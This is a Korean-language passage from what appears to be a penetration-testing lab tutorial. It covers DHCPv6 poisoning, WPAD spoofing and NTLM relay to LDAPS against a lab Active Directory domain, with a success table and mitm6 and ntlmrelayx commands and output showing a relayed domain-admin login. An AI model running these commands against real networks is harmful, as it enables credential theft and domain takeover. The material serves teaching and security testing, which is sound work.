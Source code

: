 DNS 서버의 최상단에 공격자의 서버 주소인 `fe80::9657:ab93:4d68:306f%5` 가 포이즈닝 되서 설정되어 있다. 이제부터 타겟의 DNS Name Resolution은 IPv6 로 일어나고, 가장 먼저 공격자의 IPv6 DNS 서버로 가 Name Resolution을 실행한다.&#x20;

### DHCPv6 포이즈닝 + NTLM 릴레이 - LDAP/S

DHCPv6 포이즈닝 + WPAD 스푸핑 + NTLM LDAP/S 릴레이는 WPAD 때문에 아주 특이한 점이 있다. 타겟 호스트가 WPAD 를 요청할때는 HTTP 트래픽을 사용하는데, 이때 HTTP 트래픽은 LDAP Signing 여부와 상관없이 LDAPS 에 릴레이 하기만 하면 공격을 성공적으로 실행할 수 있다.&#x20;

| NTLM 종류 | 릴레이 할 서비스  | Signing 여부  | 성공 여부 |
| ------- | ---------- | ----------- | ----- |
| NTLMv1  | LDAP       | Required    | 실패    |
| NTLMv1  | LDAP       | Off         | 성공    |
| NTLMv1  | LDAPS      | Required    | 성공    |
| NTLMv1  | LDAPS      | Off         | 성공    |
| NTLMv2  | LDAP       | Required    | 실패    |
| NTLMv2  | LDAP       | Off         | 성공    |
| NTLMv2  | LDAPS      | Required    | 성공    |
| NTLMv2  | LDAPS      | Off         | 성공    |

다음 실습은 NTLMv2 + LDAPS + Signing Required 일 때를 가정한 실습이다.&#x20;

1. 타겟이 WPAD 호스트와 설정 파일 위치를 공격자 IPv6 DNS 서버에게 요청한다. 공격자는 서버 위치와 URL을 반환한다.&#x20;

```
// DHCPv6 포이즈닝과 WPAD 서버 위치 스푸핑 

└─# mitm6 -d choi.local                        
[ ... ] 
IPv6 address fe80::192:168:40:151 is now assigned to mac=00:0c:29:e0:7a:44 host=wkstn01.choi.local. ipv4=192.168.40.151
Sent spoofed reply for wpad.choi.local. to fe80::789f:a0cd:a227:2c0
```

2. 타겟 호스트는 WPAD 파일을 가지러 공격자 서버에게 NTLM 인증 트래픽을 HTTP를 통해 보낸다. Signing Required 이기 때문에 LDAPS 서비스로 릴레이한다.&#x20;

```
// 가짜 WPAD 설정 전달 후 들어오는 NTLMv2 요청을 LDAPS 로 릴레이 

└─# ntlmrelayx.py -6 -wh xfr.choi.local -t ldaps://192.168.40.150 -socks -debug -smb2support

[*] HTTPD(80): Client requested path: /wpad.dat           
[*] HTTPD(80): Serving PAC file to client ::ffff:192.168.40.151
[*] HTTPD(80): Connection from ::ffff:192.168.40.151 controlled, attacking target ldaps://192.168.40.150            
[*] HTTPD(80): Authenticating against ldaps://192.168.40.150 as CHOI/DA SUCCEED                                     
[*] Enumerating relayed user's privileges. This may take a while on large domains
[ ... ] 
```
